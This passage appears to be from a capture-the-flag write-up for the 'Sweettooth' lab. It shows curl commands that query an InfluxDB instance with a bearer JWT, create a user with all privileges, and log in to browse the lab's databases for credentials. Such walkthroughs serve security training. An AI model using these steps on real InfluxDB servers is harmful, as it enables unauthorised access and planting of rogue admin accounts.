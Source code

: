     # show series in db
    curl http://sweettooth.thm:8086/query -H "Authorization: Bearer $INFLUXDB_JWT" --data-urlencode 'db=mixer' --data-urlencode 'q=SHOW SERIES' | jq
    # gives us series 'mixer_stats'

    # get value from series
    curl http://sweettooth.thm:8086/query -H "Authorization: Bearer $INFLUXDB_JWT" --data-urlencode 'db=mixer' --data-urlencode 'q=SELECT * FROM mixer_stats' | jq
    # get highest rpm of motor from this

    # check other dbs
    curl http://sweettooth.thm:8086/query -H "Authorization: Bearer $INFLUXDB_JWT" --data-urlencode 'db=tanks' --data-urlencode 'q=SHOW SERIES' | jq

    curl http://sweettooth.thm:8086/query -H "Authorization: Bearer $INFLUXDB_JWT" --data-urlencode 'db=tanks' --data-urlencode 'q=SELECT * FROM water_tank' | jq
    # get temperature of water tank from this

    # we can also create a privileged user so that we can query normally
    curl http://sweettooth.thm:8086/query -H "Authorization: Bearer $INFLUXDB_JWT" --data-urlencode "q=CREATE USER tester with PASSWORD 'password' with ALL PRIVILEGES"

    # now we can try to login using these creds
    influx -host 'sweettooth.thm' -port '8086' -username 'tester' -password 'password'

    show databases
    # this works, and we are in InfluxDB now

    use docker

    show series

    select * from stats
    # error parsing query

    select * from "stats"
    # this gives us a lengthy output for containername "sweettoothinc"
    # seems to be docker stats
    # but no password found
